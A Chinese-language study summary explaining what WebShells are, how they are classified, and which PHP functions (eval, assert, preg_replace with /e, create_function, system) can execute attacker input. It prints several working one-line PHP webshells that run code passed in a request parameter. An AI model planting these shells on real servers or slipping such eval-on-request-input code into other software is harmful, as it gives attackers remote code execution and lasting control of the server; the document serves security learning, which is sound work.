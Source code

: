 



# 知识点总结

### 1. 什么是 WebShell？

WebShell 是一种以网页文件形式存在的命令执行环境，通常以 ASP、PHP、JSP 或 CGI 等动态脚本语言编写。攻击者通过 WebShell 获得服务器的控制权限，可以执行任意命令、读取文件、上传恶意文件等。它通常被称为网站的“后门”，用于维持对受感染服务器的长期控制。

### 2. WebShell 的分类

WebShell 通常分为以下几类：
1. **一句话 WebShell**：非常短小的恶意代码，通常只包含一行，功能是执行任意命令或代码。
2. **复杂 WebShell**：带有文件管理、数据库管理等功能的恶意脚本，通常以多行代码形式存在，功能强大。
3. **隐蔽型 WebShell**：通过各种技术手段对代码进行混淆或加密，以规避安全检测工具的发现。

### 3. 一句话 WebShell 示例

一句话 WebShell 通常非常简短，仅包含执行代码的核心功能。

#### PHP 一句话 WebShell 示例

**示例 1**：
```php
<?php eval($_REQUEST["cmd"]); ?>
```
- **解释**：`eval()` 函数将 `$_REQUEST["cmd"]` 的内容作为 PHP 代码执行，攻击者通过请求传递命令（如 `cmd=phpinfo()`），服务器执行该命令。

**示例 2**：
```php
<?php assert($_REQUEST['cmd']); ?>
```
- **解释**：`assert()` 函数将 `$_REQUEST["cmd"]` 的内容当作 PHP 代码执行，功能类似于 `eval()`。

### 4. WebShell 代码执行函数

在 PHP 中，有许多函数可以执行代码，这些函数通常被用于编写 WebShell。

#### 常见代码执行函数：

- **`eval()`**：执行字符串形式的 PHP 代码。
- **`assert()`**：与 `eval()` 类似，执行字符串形式的 PHP 代码。
- **`preg_replace()`**：带 `/e` 修饰符的情况下，可以将替换内容作为 PHP 代码执行。
- **`create_function()`**：创建匿名函数，并可以执行传递的代码。
- **`system()`、`exec()`、`shell_exec()`**：直接在服务器上执行系统命令。

#### 示例代码：
```php
// 使用 eval() 执行任意代码
<?php eval($_REQUEST['cmd']); ?>

// 使用 assert() 执行任意代码
<?php assert($_REQUEST['cmd']); ?>

// 使用 preg_replace() 和 /e 修饰符
<?php preg_replace("/abc/e", $_REQUEST['cmd'], "abc"); ?>

// 使用 create_function() 创建并执行匿名函数
<?php 
$func = create_function('', $_REQUEST['cmd']);
$func();
?>
```
